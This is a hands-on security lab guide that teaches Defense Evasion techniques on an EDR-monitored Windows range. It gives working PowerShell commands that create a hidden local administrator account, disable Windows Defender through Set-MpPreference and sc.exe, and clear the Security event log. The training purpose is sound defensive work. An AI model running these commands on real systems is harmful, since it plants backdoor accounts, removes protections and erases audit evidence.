```yaml
---
Title: ATT&CK - Defense Evasion Phase
Description: Introduce post-compromise attack behaviors and EDR defenses
Author: Chris Gerritz, Datto
Created: 04/07/2025
Achievements:
Duration: 10
Range:
- Windows
Applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
- Office
- Adobe Reader
External:
- attack.mitre.org
- allitshop.infocyte.com
- 
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. We will perform post-compromise behaviors that an attacker would run once they compromised a system within the network.  This system has Datto EDR installed for monitoring so we will be able to view these commands from the defender's perspective as well.

Lab 4 is a light touch on some Defense Evasion techniques (such as disabling antivirus or defensive products). These techniques are often layered on the other techniques and phases to help hide that activity. In any case, when it comes to EDR and continuous monitoring, oftentimes we can use the presence of these evasion techniques as detection or confirmation that the user performing suspicious behaviors is indeed a threat.

---

## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs: KNOWLEDGE,UNDERSTAND, APPLY, ANALYZE, EVALUATE, CREATE
- https://www.teachthought.com/critical-thinking/blooms-taxonomy-verbs-2/
-->
1. Understand the Defense Evasion phase activities an attacker might utilize
2. Demonstrate Defense Evasion skills to disable antivirus and allow us to bring down additional malware utilities without being detected
3. Understand how we can use Defense Evasion activities to identify or confirm malicious intent

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |



## Instructions

Open a new terminal using `c:\Users\Public\rat.exe` or you can use the same terminal from the previous lab. You will be copying and pasting the lab commands into this terminal session.  If you close this window, remember to re-open `c:\Users\Public\rat.exe` before running any of the labs.

w> All labs require you to be running as an administrator. 


> *While most defensive evasion will be used alongside other techniques to hide them, an explicit defense evasion phase usually will happen where the attacker will disable security tools and logging.*

### 1. Creating a new user via net.exe
*Attackers will often create users on the machine and attempt to escalate the privledges to manipulate the machine. A common technique is to use the net.exe process to silently create new users as well as escalate privleges to local administrator rights.*

[ATT&CK T1136.001-Create Account-Local Account](https://attack.mitre.org/techniques/T1136/001/)
- Copy and paste this command into the terminal:
```Powershell
Write-Host -ForegroundColor Cyan "Initiating Persistence...creating local account"
Write-Host "Creating user 'notahacker' with admin rights..."

$n = Get-Random -Minimum 100 -Maximum 1000

$cmd = @(
    "net user notahacker Password123! /add",
    "net localgroup administrators notahacker /add",
    "Start-Sleep -Milliseconds $n"
) -join "; "

powershell.exe -NoP -Command $cmd

Write-Host -ForegroundColor Green "'notahacker' added to Administrators group successfully."
```

*Verify user was created.*

```Powershell
net users
```

*If command ran correctly should return*

```
User accounts for \\[USER-WORKSTATION]
-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
notahacker               [youraccount]                 WDAGUtilityAccount
```

### 2.Hiding the attacker from userlist - Defense Evasion
*Attackers will also make attempts to conceal the account, the command below, will alter the registry keys to remove the user from the userlist screen on a login screen*

- [ATT&CK T1564.002-Hide user from userlist](https://attack.mitre.org/techniques/T1564/002/)
- Copy and paste this command into the terminal:
```Powershell
$n = Get-Random -Minimum 100 -Maximum 1000
$cmd = "reg add 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList' /t REG_DWORD /f /d 0 /v 'notahacker'; Start-Sleep -Milliseconds $n"
powershell.exe -NoP -Command "$cmd"
Write-Host -ForegroundColor Green "'notahacker' removed from userlist."
```

### 3.Use Powershell to perform a **Disable Security Tools** technique
*The method we'll demonstrate today is to disable Windows Defender, often an attacker will use a script to detect and disable whatever AV is on the system. This action requires administrator privileges. This command may not work directly if tamper protection is enabled but there are methods an attacker can use to bypass tamper protection as well.*

- [ATT&CK T1089 - Defense Evasion - Disabling Security Tools](https://attack.mitre.org/techniques/T1089)
- Copy and paste this command into the terminal:
```PowerShell
Write-Host -ForegroundColor Cyan "Initiating Defense Evasion - T1089 - Disabling Security Tools"
Write-Host "Disabling Defender..."
$cmd = "Set-MpPreference -DisableRealtimeMonitoring `$true; Start-Sleep -Milliseconds 1000"
$p = Start-Process -FilePath "powershell.exe" `
    -ArgumentList "-nop", "-command", "`$ErrorActionPreference = 'Stop'; $cmd" `
    -RedirectStandardError "error.txt" `
    -RedirectStandardOutput "output.txt" `
    -NoNewWindow `
    -PassThru
$p.WaitForExit()
$errorOutput = Get-Content -Path "error.txt" -Raw
Remove-Item "error.txt", "output.txt" -Force
if ($errorOutput -match "Invalid class") {
    Write-Host -ForegroundColor Yellow "Defender is not available on this system. Skipping..."
} elseif ($errorOutput) {
    Write-Host -ForegroundColor Red "An error occurred while trying to disable Defender:"
    Write-Host -ForegroundColor Red $errorOutput
} else {
    Write-Host -ForegroundColor Green "Realtime Monitoring successfully disabled."
}
```

### 4. Disabling Security Tools - Service Control Manager
> *If the above method does not work, attackers can also disable the antivirus service from the service control manager using sc.exe*

Use the Service Control Manager (sc.exe) to perform a **Disable Security Tools** technique
- [ATT&CK T1089 - Defense Evasion - Disabling Security Tools](https://attack.mitre.org/techniques/T1089)
- Copy and paste this command into the terminal:
```PowerShell
Write-Host -ForegroundColor Cyan "Initiating Defense Evasion - T1089 - Disabling Security Tools"
Write-Host "Disabling Defender..."

$cmd = @"
sc.exe config WinDefend start= disabled
sc.exe stop WinDefend
Start-Sleep -Milliseconds 1000
"@

$pinfo = New-Object System.Diagnostics.ProcessStartInfo
$pinfo.FileName = "powershell.exe"
$pinfo.Arguments = "-nop -command `$ErrorActionPreference='Stop'; $cmd"
$pinfo.RedirectStandardError = $true
$pinfo.RedirectStandardOutput = $true
$pinfo.UseShellExecute = $false
$pinfo.CreateNoWindow = $true

$process = New-Object System.Diagnostics.Process
$process.StartInfo = $pinfo
$process.Start() | Out-Null

$stdout = $process.StandardOutput.ReadToEnd()
$stderr = $process.StandardError.ReadToEnd()
$process.WaitForExit()

if ($stdout -match "OpenService FAILED 1060") {
    Write-Host -ForegroundColor Yellow "Defender service is not available on this system. Skipping..."
} elseif ($stderr) {
    Write-Host -ForegroundColor Red "An unexpected error occurred:"
    Write-Host -ForegroundColor Red $stderr
} else {
    Write-Host -ForegroundColor Green "Windows Defender service successfully disabled."
}

```

### 5. Removing Evidence of Activity - wevtutil.exe clear logs
*After completing certain tasks, or as part of a script, users wil conceal their tracks in an attempt to hide their activity*

- [ATT&CK T1070.001 - Defense Evasion - Windows Event Logs Cleared](https://attack.mitre.org/techniques/T1070/001/)
- Copy and paste this command into the terminal:
```PowerShell
Write-Host -ForegroundColor Cyan "Clearing Security Logs"
$cmd = @"
wevtutil.exe cl Security
Start-Sleep -Milliseconds $n
"@
powershell.exe -nop -command $cmd
Write-Host -ForegroundColor Cyan "Logs Cleared"
```
